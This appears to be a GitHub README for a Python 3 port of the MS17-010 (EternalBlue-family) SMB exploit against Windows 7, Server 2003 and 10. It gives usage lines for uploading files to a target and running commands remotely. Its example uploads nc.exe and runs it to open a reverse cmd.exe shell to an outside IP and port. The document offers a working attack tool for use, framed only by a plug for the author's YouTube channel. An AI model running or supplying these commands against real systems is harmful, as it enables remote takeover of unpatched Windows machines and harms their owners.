 # Eternal.py

This is a python3 implementation from the zzz_exploit. (https://github.com/worawit/MS17-010)

Original exploit was based on eternal sinergy and eternal champion. This is a partially translation to python3, with the "mysmb.py" included. Tested in windows 7, windows server 2003, and windows 10. Other Operative Systems may require to finish the translation to python3.
<br>

usage: 

   `python3 eternal.py -i <remote ip> -t <file to transfer> -o <output file name>`
   
   `python3 eternal.py -i <remote ip> -c <rce to execute>`

 NOTE: files transfered will appear inside remote host -> `c:\<output file name>`

example: `python3 eternal.py -i 10.10.10.40 -t nc.exe -o nc.exe -c 'c:/nc.exe 10.10.15.8 4455 -e cmd.exe'`

<br>

If this exploit was usefull to you remember to subscribe to my youtube channel -> https://www.youtube.com/@artes_oscuras
